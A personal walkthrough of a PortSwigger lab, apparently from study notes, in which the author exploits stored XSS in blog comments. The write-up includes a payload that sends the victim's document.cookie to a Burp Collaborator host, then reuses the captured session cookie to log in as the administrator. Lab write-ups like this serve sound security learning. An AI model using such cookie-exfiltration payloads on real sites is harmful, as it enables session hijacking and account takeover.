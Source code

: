 # Lab - Exploiting cross-site scripting to steal cookies

## Objective:  This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim. 

I went to the comments section and I tried out the `<script>alert(2)<\script> payload.`

This payload did not work. 

 I went to the portswigger XSS cheat cheat and tried the following payload
 
 ![[Pasted image 20210911141429.png]]
 
 ![[Pasted image 20210911141512.png]]
 
 After entering the payload, an alert box displays. This means the stored XSS worked.
 
 ![[Pasted image 20210911141550.png]]
 
 The next step is to change the payload to steal the user's cookie. Since this is a stored XSS attack, any user who visits this page will execute the javascript. 
 
 
I went back to the cheatsheat and this payload looks promising

![[Pasted image 20210911141739.png]]

`<video><source onerror=location=/\02.rs/+document.cookie>`
	
I would need to change the location to my malicious server listening for the cookies. This lab will only send outbound requests to burpcollaborator.net which is used by Burp Pro. I was able to get a trial version 

From Burp Pro, I went to Burp > Burp Collaborator client

![[Pasted image 20210911143751.png]]

I clicked "Copy to clipboard" to get the burp.collaborator.net FQDN

2nqn3xw3l8edc2y6w5wia7k7pyvpje.burpcollaborator.net

![[Pasted image 20210911143938.png]]

Now, in the XSS payload, I will use this FQDN 

`<video><source onerror=location=/\2nqn3xw3l8edc2y6w5wia7k7pyvpje.burpcollaborator.net/+document.cookie>`
	
![[Pasted image 20210911144041.png]]
	
I received the following error

![[Pasted image 20210911144134.png]]

I dropped the payload from the Name field because it was too long.

![[Pasted image 20210911144202.png]]

![[Pasted image 20210911144220.png]]

From the Collaborator client, I can see an HTTP request for `/secret=n0mdFU8w7BsSFNVOtkMIiUDjTmNsvDHQ;%20session=gimJNMnGHeTwVAkPn4GAIa0ga8s2LjxD`

![[Pasted image 20210911145838.png]]

This is probably the cookie for another user. I took it an replaced my own cookie with `gimJNMnGHeTwVAkPn4GAIa0ga8s2LjxD`

![[Pasted image 20210911150023.png]]

After replacing my cookie, I passed the lab!

![[Pasted image 20210911150042.png]]

I clicked to "My account" and I can see that the cookie I used was the Administrator user.

![[Pasted image 20210911150123.png]]